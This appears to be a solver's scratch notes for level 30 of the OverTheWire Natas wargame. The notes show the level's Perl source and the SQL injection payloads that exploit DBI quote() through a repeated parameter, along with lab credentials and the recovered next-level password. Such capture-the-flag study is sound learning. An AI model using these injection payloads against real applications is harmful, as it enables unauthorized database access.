 
/var/www/natas/natas30/index-source.pl

#!/usr/bin/perl
use CGI qw(:standard);
use DBI;

print <<END;
Content-Type: text/html; charset=iso-8859-1

<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN">
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas30", "pass": "<censored>" };</script></head>
<body oncontextmenu="javascript:alert('right clicking has been blocked!');return false;">

<!-- morla/10111 <3  happy birthday OverTheWire! <3  -->

<h1>natas30</h1>
<div id="content">

<form action="index.pl" method="POST">
Username: <input name="username"><br>
Password: <input name="password" type="password"><br>
<input type="submit" value="login" />
</form>
END

if ('POST' eq request_method && param('username') && param('password')){
    my $dbh = DBI->connect( "DBI:mysql:natas30","natas30", "<censored>", {'RaiseError' => 1});
    my $query="Select * FROM users where username =".$dbh->quote(param('username')) . " and password =".$dbh->quote(param('password')); 

    my $sth = $dbh->prepare($query);
    $sth->execute();
    my $ver = $sth->fetch();
    if ($ver){
        print "win!<br>";
        print "here is your result:<br>";
        print @$ver;
    }
    else{
        print "fail :(";
    }
    $sth->finish();
    $dbh->disconnect();
}

print <<END;
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
END

https://stackoverflow.com/questions/40273267/is-perl-function-dbh-quote-still-secure

http --auth natas30:WQhx1BvcmP9irs2MP9tRnLsNaDI76YrH POST http://natas30.natas.labs.overthewire.org username="1; OR 1=1" username="NUMERIC" password="a"

just doing it in firefox now
username=g' OR 1=1 -- &username=SQL_INTEGER&password=g
username=g' OR 1=1 -- &username=4&password=g

username=natas30&password='a' OR 1&password=4
win!<br>
here is your result:<br>
natas31
m7bfjAHpJmSYgQWWeqRE2qVBuMiRNq0y

also in 30.py

https://security.stackexchange.com/questions/175703/is-this-perl-database-connection-vulnerable-to-sql-injection
